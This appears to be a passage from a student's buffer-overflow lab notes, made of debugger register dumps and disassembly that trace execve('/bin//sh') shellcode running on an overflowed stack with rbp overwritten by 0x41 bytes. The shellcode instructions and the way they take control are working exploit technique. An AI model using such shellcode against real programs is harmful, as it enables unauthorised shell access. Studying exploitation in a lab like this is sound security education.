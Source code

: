```
$rbx   : 0x00007fffffffdf08  →  0x00007fffffffe272  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x0               
$rdi   : 0x00007fffffffddf0  →  "/bin//sh"
$rip   : 0x00007fffffffdde1  →  0xf041050f99583b6a

stack ────
0x00007fffffffddf0│+0x0000: "/bin//sh"     ← $rsp, $rdi

```

Next breakpoint:
```
   0x7fffffffddd0:                 xor    rsi,rsi
   0x7fffffffddd3                  push   rsi
   0x7fffffffddd4                  movabs rdi, 0x68732f2f6e69622f
   0x7fffffffddde                  push   rdi
   0x7fffffffdddf                  push   rsp
   0x7fffffffdde0                  pop    rdi
   0x7fffffffdde1                  push   0x3b
   0x7fffffffdde3                  pop    rax
●→ 0x7fffffffdde4                  cdq    
   0x7fffffffdde5                  syscall 
```
We have something in `rax` now
```
registers ────
$rax   : 0x3b              
$rbx   : 0x00007fffffffdf08  →  0x00007fffffffe272  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x0               
$rdi   : 0x00007fffffffddf0  →  "/bin//sh"
$rip   : 0x00007fffffffdde4  →  0x0000003b41050f99

```
Stack is the same


Right before the syscall:
```
 registers ────
$rax   : 0x3b              
$rbx   : 0x00007fffffffdf08  →  0x00007fffffffe272  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddf0  →  "/bin//sh"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x0               
$rdi   : 0x00007fffffffddf0  →  "/bin//sh"

```

```
0x00007fffffffddf0│+0x0000: "/bin//sh"     ← $rsp, $rdi
```

